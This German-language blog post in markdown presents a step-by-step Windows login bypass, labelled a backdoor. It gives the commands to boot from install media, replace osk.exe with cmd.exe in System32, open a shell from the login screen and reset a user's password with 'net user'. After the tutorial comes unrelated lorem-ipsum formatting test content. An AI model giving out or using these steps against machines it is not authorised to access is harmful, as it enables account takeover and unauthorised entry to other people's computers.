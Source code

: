 ```yaml
---
layout:     post
title:      Windows Login umgehen (backdoor)

date:       2021-05-01
author:     user

summary:    Windows Login umgehen (backdoor)
categories: Login
thumbnail:  cogs
tags:
            - Windows
            - Login
            - Passwort
            - umgehen
            - backdoor
            - Hintertür
---
```


## Windows Login umgehen (backdoor)

Was wir brauchen:

1. Original Image von Windows (.iso)
2. Bootable USB


Vorgehensweise:

1. Von Windows-USB-Stick booten
2. Computerreparaturoptionen
    ![Thumper](https://i.imgur.com/cgOS11f.jpg)
    
3. Problembehandlung
    ![Thumper](https://i.imgur.com/XZsOGe0.jpg)

4. Eingabeaufforderung
    ![Thumper](https://i.imgur.com/MdtXTKA.jpg)

5. Auf C-Platte wechseln

```
C:
```

6. Dann in den Windows Ordner

```
cd Windows\System32
```

7. osk = on screen keyboard (Bildschirmtastatur)

```
dir osk.exe
```

8. Original umbenennen

```
rename osk.exe osk.orig.exe
```

9. cmd.exe zu osk.exe kopieren

```
copy cmd.exe osk.exe

```

10. überprüfen

```
dir osk*
```

10. PC neustartem

11. Erleichterte Bedienung > Bildschirmtastatur - Es wird allerdings cmd.exe gestartet weil wir diese ja zuvor ausgetauscht haben

12. net user *USERNAME* *NEUES PW*

```
net user eski 1234
```





[no.link](http://no.struggle.zone)

<del>lorem ipsum</del>

lorem __impsum__

lorem _ipsum_

<ins>lorem impsum</ins>

`lorem` - `ipsum`

##### Test
5

#### Test
4

### Test
3
  
## Test
2

* A
* B
* C
* D

1. A
2. B
3. C

## Image
![Thumper](https://i.imgur.com/DMCHDqF.jpg)

## Zitat
> Lorem ipsum dolor sit amet, consectetur adipiscing elit
